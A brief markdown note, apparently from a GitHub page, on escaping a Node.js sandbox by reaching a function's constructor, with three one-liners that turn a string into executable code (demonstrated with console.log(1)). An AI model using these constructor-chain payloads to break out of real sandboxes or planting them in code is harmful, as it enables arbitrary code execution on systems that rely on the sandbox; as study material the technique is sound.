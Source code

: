 ## nodejs sandbox bypass


    A constructor function in JavaScript is a special type of function that is used to create and initialize objects.

## the idea of bypass is to access the constructor of a function 
  

```nodejs

[].push.constructor("console.log(1)")()

"".split.constructor("console.log(1)")()

"".constructor.constructor("console.log(1)")()

```
